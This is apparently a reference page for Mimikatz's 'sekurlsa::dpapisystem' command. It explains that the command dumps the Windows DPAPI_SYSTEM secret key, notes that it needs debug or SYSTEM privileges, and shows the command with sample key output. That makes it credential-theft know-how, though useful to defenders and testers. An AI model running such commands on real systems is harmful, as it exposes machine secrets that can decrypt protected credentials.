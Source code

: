 # dpapisystem

`sekurlsa::dpapisystem` lists the `DPAPI_SYSTEM` secret key.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::dpapisystem
DPAPI_SYSTEM
full: c3f9c93d781ff9caa8ba1eb63018c8d869e1278fa17e7c0ff7a4f8c3be91956e1c53000494eaec52
m/u : c3f9c93d781ff9caa8ba1eb63018c8d869e1278f / a17e7c0ff7a4f8c3be91956e1c53000494eaec52
```
